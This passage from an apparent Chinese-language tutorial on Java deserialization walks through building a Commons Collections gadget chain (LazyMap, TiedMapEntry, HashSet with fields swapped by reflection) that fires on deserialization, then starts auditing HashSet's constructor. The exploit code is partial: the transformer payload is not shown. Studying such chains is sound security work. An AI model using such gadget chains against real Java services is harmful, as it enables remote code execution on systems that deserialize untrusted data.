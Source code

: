             // 2. 构造 chain2
            LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
    
            // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
            // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
            TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
    
            // 4. 创建 HashSet 和 HashMap，通过反射修改其 Map 为 HashMap
            HashSet toBeSerializedHashSet = new HashSet();
            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put(lazyMapTiedMapEntry, "EndlessShw");
            Field mapField = toBeSerializedHashSet.getClass().getDeclaredField("map");
            mapField.setAccessible(true);
            mapField.set(toBeSerializedHashSet, hashMap);
    
            // 5. 将 LazyMap 中存放的 key 删除
            lazyMap.remove("EndlessShw");
    
            // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
            Field factoryField = lazyMap.getClass().getDeclaredField("factory");
            factoryField.setAccessible(true);
            factoryField.set(lazyMap, transformedChain);
    
            String serialize = serialize(toBeSerializedHashSet);
            unSerialize(serialize);
        }
    ```

2. 当然，审计一下 `HashSet` 的构造函数，可以看到：
    ![image-20240927104123514](Serialization-Java/image-20240927104123514.png)

    要求传入一个 `Collection<>`，跟进 `addAll()`：
    ![image-20240927104158681](Serialization-Java/image-20240927104158681.png)
    其中调用了 `add()`，再跟进 `add()`：
